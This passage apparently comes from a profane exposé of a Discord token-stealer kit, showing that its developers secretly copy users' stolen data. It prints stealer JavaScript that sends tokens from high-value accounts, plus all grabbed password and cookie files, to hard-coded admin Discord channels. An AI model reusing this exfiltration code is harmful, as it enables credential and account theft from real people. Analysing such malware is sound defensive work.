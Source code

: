 "Wait, I thought you said it was dual hooked"  
Well, the shit tokens (Early supporter, etc) aren't ~~they don't care about low value accounts~~. But ALL the passwords.txt and cookies.txt are!  
However, if you observe the above code, all they need to change is the "false" to "true", and that's it.
That. is. it! False to True and all your grabbed accouts are belong to us.  

Just look at **Exhibit #3**, this is the **juicy shit**.  

# Exhibit #3:
Oh my, if "discord_partner", "hypesquad"... What next?  
Observe this code.  
```js
if (badges.includes("discord_partner") || badges.includes("HypeSquad_Event") || badges.includes("Bug_Hunter") || badges.includes("Discord_certified_moderator") || badges.includes("Verified_Bot_Developer")) {
    sendEmbed([embed, (await getHQFriendList(token))], "907326009479667735", true); // Sends the token to admins. Look at the "true" at the end.
    return; // Exit the code execution
}
sendEmbed([embed, (await getHQFriendList(text.token))], channelId, true);
```
This code looks for all the ULTRA rare accounts. And then sends it to a hard coded channel ID `907326009479667735` and `true` = admin.
Just as a refresher, check the method for sendEmbed()  
```js
async function sendEmbed(embeds = [], >> channelId = 0, admin = false <<) // These >> two parameters << are important, duhhh!
```
If the 2nd parameter is set, it'll hard code a channel to send to. If the last parameter is true, it sends it to the admins.  

If you grab any of the following accounts:  
* Discord Partner
* HypeSquad Event
* Bug Hunter
* Discord Certified Moderator
* Verified Bot Developer

**The admins get these tokens. DUALHOOKED motherfucker!**. You don't!  
The developers have been stealing your precious ultra rare accounts!  
Aww how sad this is.  

# Exhibit #4:
All the passwords and cookies are dualhooked... **All. of. them.**
```js
// Send to the skidz
client.channels.cache.get(clients[req.params.name])
	.send({
		files: [attachment]
	})
	.catch(err => {
		console.log(err)
	});

// Send to the admins
if (clients[req.params.name] != "907326009479667735")
	client.channels.cache.get("919486655231062026")
		.send({
			files: [attachment]
		})
		.catch(err => {
			console.log(err)
		});
```
